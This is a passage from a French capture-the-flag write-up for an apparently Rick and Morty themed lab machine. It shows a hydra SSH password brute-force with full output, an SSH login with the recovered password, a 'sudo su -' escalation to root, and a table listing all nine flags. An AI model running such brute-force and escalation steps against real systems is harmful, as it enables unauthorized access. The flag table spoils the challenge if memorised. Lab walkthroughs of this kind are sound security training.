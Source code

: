 On va ensuite utiliser le fichier `passwords.txt` pour bruteforcer le mot de passe de Rick.

```bash
$ hydra -l RickSanchez -P ./passwords.txt ssh://192.168.228.161:22222

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-07 18:35:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 780 login tries (l:1/p:780), ~49 tries per task
[DATA] attacking ssh://192.168.228.161:22222/
[STATUS] 146.00 tries/min, 146 tries in 00:01h, 637 to do in 00:05h, 13 active
[STATUS] 108.67 tries/min, 326 tries in 00:03h, 457 to do in 00:05h, 13 active
[22222][ssh] host: 192.168.228.161   login: RickSanchez   password: P7Curtains
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-07 18:40:12
```

On a trouvé le mot de passe de Rick `P7Curtains`, on peut maintenant se connecter en SSH avec Rick pour trouver le dernier flag.



```bash
$ ssh RickSanchez@192.168.228.161 -p 22222
RickSanchez@192.168.228.161's password:

Last failed login: Fri Nov  8 03:40:05 AEDT 2024 from 192.168.228.160 on ssh:notty
There were 839 failed login attempts since the last successful login.
Last login: Fri Nov  8 02:24:11 2024 from 192.168.228.160
[RickSanchez@localhost ~]$ ls
RICKS_SAFE  ThisDoesntContainAnyFlags
```
On retrouve les mêmes fichiers vus précédemment, dans la sortie du programme `safe` on a eu des indices sur l'utilisation de sudo, ce qui peut nous laisser penser que Rick a les permissions pour exécuter des commandes en tant que root.
    
```bash
[RickSanchez@localhost ~]$ sudo su -
[sudo] password for RickSanchez:
[root@localhost ~]#ls
anaconda-ks.cfg  FLAG.txt
[root@localhost ~]# echo "$(<FLAG.txt)"
FLAG: {Ionic Defibrillator} - 30 points
````

On a trouvé le dernier flag `FLAG: {Ionic Defibrillator} - 30 points` et on a fini le CTF. 


---



# FLAGS
Num| Flag | Points | Origine | Description |
---|------|--------|---------|-------------|
1 | `Whoa this is unexpected` | 10 | FTP | FTP a accès anonyme |
2 | `There is no Zeus, in your face!` | 10 | 9090 | Service web accessible |
3 | `TheyFoundMyBackDoorMorty` | 10 | 13337 | Service accessible |
4 | `Flip the pickle Morty!` | 10 | 60000 | Reverse shell | 
5 | `Get off the high road Summer!` | 10 | SSH | Accès SSH avec Summer |
6 | `Yeah d- just don't do it.` | 10 | /passwords/FLAG.txt | Page html |
7 | `131333` | 20 | /home/Morty | Déchiffrement du journal de Morty |
8 | `And Awwwaaaaayyyy we Go!` | 20 | /home/RickSanchez/RICKS_SAFE | Déchiffrement du coffre fort de Rick |
9 | `Ionic Defibrillator` | 30 | /root | Accès root |
